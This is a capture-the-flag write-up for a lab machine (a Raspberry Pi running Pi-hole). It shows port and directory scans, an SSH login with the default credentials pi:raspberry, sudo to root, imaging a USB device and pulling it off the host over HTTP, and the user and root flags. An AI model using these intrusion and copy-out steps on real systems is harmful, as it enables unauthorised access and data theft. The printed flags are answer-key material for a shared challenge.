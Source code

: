 ### IP
`10.10.10.48`
# Recon
### nmap
`nmap -sC -sV 10.10.10.48 -oN init.nmap`
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 21:38 EDT
Nmap scan report for 10.10.10.48
Host is up (0.050s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.04 seconds

```
* I wasn't able to access port 80, so I did a more comprehensive scan:
`nmap -sC -sV 10.10.10.48 --min-rate 10000 -p-`
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 21:41 EDT
Warning: 10.10.10.48 giving up on port because retransmission cap hit (10).
Verbosity Increased to 1.
Completed Service scan at 21:41, 11.17s elapsed (6 services on 1 host)
NSE: Script scanning 10.10.10.48.
Initiating NSE at 21:41
Completed NSE at 21:42, 8.20s elapsed
Initiating NSE at 21:42
Completed NSE at 21:42, 0.22s elapsed
Initiating NSE at 21:42
Completed NSE at 21:42, 0.00s elapsed
Nmap scan report for 10.10.10.48
Host is up (0.052s latency).
Not shown: 63659 closed ports, 1870 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1657/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 21:42
Completed NSE at 21:42, 0.00s elapsed
Initiating NSE at 21:42
Completed NSE at 21:42, 0.00s elapsed
Initiating NSE at 21:42
Completed NSE at 21:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.06 seconds
           Raw packets sent: 233946 (10.294MB) | Rcvd: 63990 (2.560MB)

```
* Port `32400` gives a website
	* I looking at some vulnerabilities here, but nothing popped up.
		* Instead, lets look back at port 80

### gobuster
* Since there is nothing initially for port 80, lets scan to see if anything else is there
`gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/27 22:25:43 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/versions             (Status: 200) [Size: 13]                               
                                                                             
===============================================================
2021/03/27 22:45:00 Finished
===============================================================

```
* We can see an `/admin` page, which takes us to a pi.hole login

# SSH
* Based on the pi.hole, we can guess that the device running on ssh is a raspberry pi
	* Using default credentials of `pi:raspberry` works
	* We can log in with `ssh pi@10.10.10.48`

* `cat /home/pi/Desktop/user.txt` gives us the user flag: `ff837707441b257a20e32199d7c8838d`

# Privesc
* `sudo -l` shows us that we can run all commands as root.
	* `sudo su` gives us root

# Forensics
* Trying to `cat /root/root.txt` doesn't give us the root flag, but rather the following:
```
I lost my original root.txt! I think I may have a backup on my USB stick...
``` 
* We can look for the usb stick by just typing `mount`, which gives the following output:
```bash
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /run type tmpfs (rw,nosuid,relatime,size=102396k,mode=755)
/dev/sda1 on /lib/live/mount/persistence/sda1 type iso9660 (ro,noatime)
/dev/loop0 on /lib/live/mount/rootfs/filesystem.squashfs type squashfs (ro,noatime)
tmpfs on /lib/live/mount/overlay type tmpfs (rw,relatime)
/dev/sda2 on /lib/live/mount/persistence/sda2 type ext4 (rw,noatime,data=ordered)
aufs on / type aufs (rw,noatime,si=a467153b,noxino)
devtmpfs on /dev type devtmpfs (rw,nosuid,size=10240k,nr_inodes=58955,mode=755)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=22,pgrp=1,timeout=300,minproto=5,maxproto=5,direct)
debugfs on /sys/kernel/debug type debugfs (rw,relatime)
mqueue on /dev/mqueue type mqueue (rw,relatime)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,relatime)
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)
tmpfs on /run/user/999 type tmpfs (rw,nosuid,nodev,relatime,size=51200k,mode=700,uid=999,gid=997)
tmpfs on /run/user/1000 type tmpfs (rw,nosuid,nodev,relatime,size=51200k,mode=700,uid=1000,gid=1000)
```
* We can see a `/dev/sdb` mounted on `/media/usbstick`

* Here, there is a file called `damnit.txt` with the following text: 
```
Do you know if there is any way to get them back?

-James
```
* To do the forensics locally, we can first turn the device into an image with `dd if=/dev/sdb/ -of=/dev/usb.image`
	* We can then download this with `python3 -m http.server 8080` remotely and `wget http://10.10.10.48:8080/usb.image` locally

* first tried to cat out the device with `strings usb.image | egrep [a-f0-9]{32}`
* This gives us the strings on the block device, which gives us the root flag: `3d3e483143ff12ec505d026fa13e020b`


